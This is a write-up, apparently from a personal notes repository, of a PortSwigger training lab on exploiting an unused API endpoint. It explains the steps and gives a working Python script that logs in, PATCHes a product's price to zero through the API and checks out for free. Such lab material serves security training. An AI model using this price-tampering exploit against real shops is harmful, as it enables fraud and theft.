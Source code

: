 ```yaml
---
title: Finding and exploiting an unused API endpoint
tags:
  - web-app
  - api
  - testing
---
```


<a href="https://portswigger.net/web-security/api-testing/lab-exploiting-unused-api-endpoint/">
2. Finding and exploiting an unused API endpoint</a>

We're asked to purchase the "Lightweight l33t leather jacket" from the store,
but we have no store credit! We need to find a way to get the jacket for free.
Browsing through the site, we notice that a request is made to
/api/products/1/price when we view the jacket. Reading through the HTML, we also
see the usage of some Javascript resource to acquire price information from the
backend.

We inspect /resources/js/api/productPrice.js and find that the price is fetched
from the backend, but we also see other methods like setPrice that are pretty
interesting. Making a POST request to the /api/products/1/price endpoint, we
receive a response saying that GET and PATCH requests are allowed. First we
login to make sure we're authenticated before interacting with the API. We use
the PATCH method to set the price of the jacket to 0. We then POST to add the
jacket to our cart, and finally we checkout.

Solution:

```python
# usage:
# python3 2.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net

import http.client
import re
from argparse import ArgumentParser

import requests

http.client.HTTPConnection.debuglevel = 1


class Solution:
    def __init__(self, url: str) -> None:
        self.url = url.rstrip("/")
        self.s = None

    def login(self, username: str, password: str) -> requests.Response:
        self.s = requests.Session()
        login_url = f"{self.url}/login"
        r = self.s.get(login_url)
        csrf = re.findall(r"\"csrf\" value=\"([\w]+)\"", r.text)[0]
        r = self.s.post(
            login_url,
            data={
                "csrf": csrf,
                "username": username,
                "password": password,
            },
        )

        return r

    def solve(self) -> None:
        self.login("wiener", "peter")
        self.s.patch(f"{self.url}/api/products/1/price", json={"price": 0})
        self.s.post(
            f"{self.url}/cart", data={"productId": 1, "redir": "PRODUCT", "quantity": 1}
        )
        r = self.s.get(f"{self.url}/cart")
        csrf = re.findall(r"/cart/checkout.*\s.*csrf\" value=\"([\w]+)\"", r.text)[0]
        r = self.s.post(f"{self.url}/cart/checkout", data={"csrf": csrf})


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    args = parser.parse_args()
    s = Solution(args.url)
    s.solve()


if __name__ == "__main__":
    main()
```
